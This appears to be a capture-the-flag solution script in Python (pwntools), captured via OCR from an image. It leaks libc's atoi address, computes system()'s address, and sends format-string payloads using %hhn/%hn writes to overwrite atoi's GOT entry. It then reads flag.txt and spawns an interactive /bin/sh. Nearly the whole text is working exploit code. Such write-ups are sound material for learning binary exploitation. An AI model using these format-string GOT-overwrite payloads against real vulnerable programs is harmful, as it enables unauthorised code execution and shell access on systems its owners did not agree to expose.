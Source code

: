 ```python
s = s[:-2]             # remove delimiter

libc_atoi_leak = 0                            # decode the byte we take to get address
for i in range(len(s) - 1, 0, -1):            #    
    libc_atoi_leak += (ord(s[i]) << 8*(i-1))  #   

libc_address = libc_atoi_leak - offset_atoi   # calculate the base address of libc

address_sys = libc_address + offset_system    # calculate the system()'s address

log.info(str(hex(libc_atoi_leak)))            # debug purpose
log.info(str(hex(address_sys)))               #

byte_01 = (address_sys & 0xffff)              #   byte 0 and byte 1st
byte_2  = (address_sys >> 16) & 0xff          #   byte 2nd

log.info(str(hex(byte_01)) + " " + str(hex(byte_2)))   # debug purpose

# TURN 2-------------------------------------------------------------------------------------------------------- 

# prepare for payload A ----------------------------------------------------------------
overwrite_2 = byte_2 - 1 - 19            # calculate the number of character for %c to overwrite byte 2nd
x = 6 - len(str(overwrite_2))            # calculate padding
overwrite_2 -= x                         # fit the overwrite and padding

# send A --------------------------------------------------------------------------------
p.recvuntil("A: ")                       
A = "1" + "%"+ str(overwrite_2).encode('ascii') + "c" + "a"*x + "%12$hhn" + p64(atoi_got_plt_addr+2)
p.sendline(A)                             

# prepare for payload B ----------------------------------------------------------------
overwrite_01 = byte_01 - 3 - byte_2 - 8 - 1  # minus 3 for address of atoi+2, 
                                             # byte_2 because we printed it before, 
                                             # 8 for " and B: ", 1 for "1" in front of %c
x_1 = 7 - len(str(overwrite_01))             # calculate padding
overwrite_01 -= x_1                          # fit the overwrite and padding

# send B --------------------------------------------------------------------------------
p.recvuntil("B: ")
B = "1" + "%{}c".format(overwrite_01) + "a"*x_1 + "%44$hn" + p64(atoi_got_plt_addr)
p.sendline(B)

# TURN 3 ---------------------------------------------------------------------------------------------------------

p.sendline("cat ./flag.txt")
p.sendline("/bin/sh")

p.interactive()
```
